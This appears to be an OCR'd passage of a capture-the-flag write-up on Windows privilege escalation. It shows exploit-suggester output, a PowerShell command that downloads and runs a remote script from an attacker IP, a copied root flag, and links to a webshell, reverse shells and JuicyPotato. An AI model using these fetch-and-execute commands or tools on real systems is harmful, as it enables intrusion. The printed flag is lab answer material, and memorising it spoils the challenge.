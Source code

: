   [*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
  [*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
  [*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
  [*]
  [E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
  [*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
  [*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
  [*]
  [*] done


MS16-135:
C:\Users\Destitute\Documents> powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.11:8080/MS16-135.ps1')
  --- snip ---
  This script contains malicious content and has been blocked by your antivirus software.

C:\Users\Destitute\Documents> //10.10.14.11/share/41015.exe
  The request is not supported.


MS16-032:
Opens a new console, so only applicable when you have a RDP session.

MS16-016:
Opens a new console, so only applicable when you have a RDP session.


None of the above exploits seem to work. Out of frustration I went ahead an looked on a walkthrough, and sure enough
JuicyPotato was the way to root. Since we can't get it to work, here's the free root.txt:

5737DD2EDC29B5B219BC43E60866BE08


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

SNMP Enum:
  https://book.hacktricks.xyz/pentesting/pentesting-snmp#enumerating-snmp

IKE Enum:
  https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting

Strongswan:
  https://wiki.strongswan.org/projects/strongswan/wiki/ConnSection
  https://blog.ruanbekker.com/blog/2018/02/11/setup-a-site-to-site-ipsec-vpn-with-strongswan-and-preshared-key-authentication/

ASP Webshell:
  https://github.com/tennc/webshell/blob/master/asp/webshell.asp

Powershell Reverse:
  https://github.com/samratashok/nishang/tree/master/Shells

JuicyPotato CLSID:
  http://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/
